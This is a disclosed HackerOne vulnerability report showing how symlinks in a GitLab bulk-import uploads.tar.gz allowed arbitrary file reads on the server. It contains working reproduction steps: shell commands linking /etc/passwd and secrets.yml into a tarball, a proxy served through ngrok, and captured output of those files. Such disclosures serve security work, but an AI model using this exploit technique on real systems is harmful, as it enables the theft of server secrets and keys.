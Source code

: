 # Arbitrary file read  via the bulk imports UploadsPipeline

## Report Details
- **Report ID**: 1439593
- **URL**: https://hackerone.com/reports/1439593
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-01-03T01:57:54.059Z
- **Disclosed**: 2022-03-21T14:46:33.605Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

The bulk imports api does not remove symlinks when untaring the uploads.tar.gz file, allowing arbitrary files to be read and uploaded when importing a group.

When a group has uploads (such as markdown attachments), an `uploads.tar.gz` file will be downloaded and extracted in the `UploadsPipeline`:
https://gitlab.com/gitlab-org/gitlab/-/blob/v14.6.0-ee/lib/bulk_imports/common/pipelines/uploads_pipeline.rb#L15
```ruby
       def extract(context)
          download_service(tmp_dir, context).execute
          untar_zxf(archive: File.join(tmp_dir, FILENAME), dir: tmp_dir)
          upload_file_paths = Dir.glob(File.join(tmp_dir, '**', '*'))

          BulkImports::Pipeline::ExtractedData.new(data: upload_file_paths)
        end
```

Since `untar_zxf` only changes the permissions, any symlinks that are extracted from the tar will remain and be added to the list of file paths. When `load` is called, the symlinks will be followed and used as the content for the new file:

https://gitlab.com/gitlab-org/gitlab/-/blob/v14.6.0-ee/lib/bulk_imports/common/pipelines/uploads_pipeline.rb#L23
```ruby
        def load(context, file_path)
          avatar_path = AVATAR_PATTERN.match(file_path)

          return save_avatar(file_path) if avatar_path

          dynamic_path = file_uploader.extract_dynamic_path(file_path)

          return unless dynamic_path
          return if File.directory?(file_path)

          named_captures = dynamic_path.named_captures.symbolize_keys

          UploadService.new(context.portable, File.open(file_path, 'r'), file_uploader, **named_captures).execute
        end
``` 

This can be used to read any file that the git user has read access to such as secrets.yml or other sensitive files.

### Steps to reproduce

1. Create a new group on gitlab.com
1. Create a new milestone and upload a file `passwd` with any content into the description
1. Make note of the upload secret (the 32 byte hash in the path)
1. Run the following commands to make a tar file, using the hash from above
    ```bash
mkdir ./d3209c811fee407218bff7cb3b4333e6
ln -s /etc/passwd ./d3209c811fee407218bff7cb3b4333e6/passwd
ln -s /srv/gitlab/config/secrets.yml ./d3209c811fee407218bff7cb3b4333e6/secrets.yml
tar cvzf uploads.tar.gz ./d3209c811fee407218bff7cb3b4333e6
    ```

1. Save the following simple proxy server as `api.py` and run it with `FLASK_APP=api flask run`, this will replace the `uploads.tar.gz` with a custom one: {F1565789}
1. Start [ngrok](https://ngrok.com/) so that it's externally accessible: `ngrok http 5000`
1. Create a new access token at https://gitlab.com/-/profile/personal_access_tokens
1. Create a new group, this time choose import group
1. Enter the https ngrok url and the token you just created
1. Select the group you initially created and choose a new name
1. Once the import has complete, view the milestone and click the passwd link
1. You will see the passwd file from the gitlab server
1. Copy the link and change `passwd` to `secrets.yml` and you should be able to download the secrets file


### Impact

A user with access to import a group on gitlab can read arbitrary files on the gitlab server

### Examples

Example with `passwd` and `secrets.yml` attached:
https://gitlab.com/groups/group_to_import_1/-/milestones/1
https://gitlab.com/groups/group_to_import_1/-/uploads/d3209c811fee407218bff7cb3b4333e6/passwd
https://gitlab.com/groups/group_to_import_1/-/uploads/d3209c811fee407218bff7cb3b4333e6/secrets.yml

### What is the current *bug* behavior?
Symlinks are not removed or filtered when the `UploadsPipeline` is run for the bulk imports api

### What is the expected *correct* behavior?
Symlinks should be removed similar to the project import

### Relevant logs and/or screenshots
/etc/passwd file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
git:x:1000:1000:GitLab,,,:/home/git:/bin/bash
```

/srv/gitlab/config/secrets.yml file:
```yaml
production:
  secret_key_base: 1174116b6adee.....
  otp_key_base: staging-a680efdeb2e93751f32.....
  db_key_base: 1174116b6adee59.....
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5RyvCSgBoOGNE03CMcJ9.....
    -----END RSA PRIVATE KEY-----
  ci_jwt_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAvazHHoAHZB5j9RUyq0CEK9.....
    -----END RSA PRIVATE KEY-----


### Output of checks
This bug happens on GitLab.com

## Impact

A user with access to import a group on gitlab can read arbitrary files on the gitlab server

## Attachments
- api.py
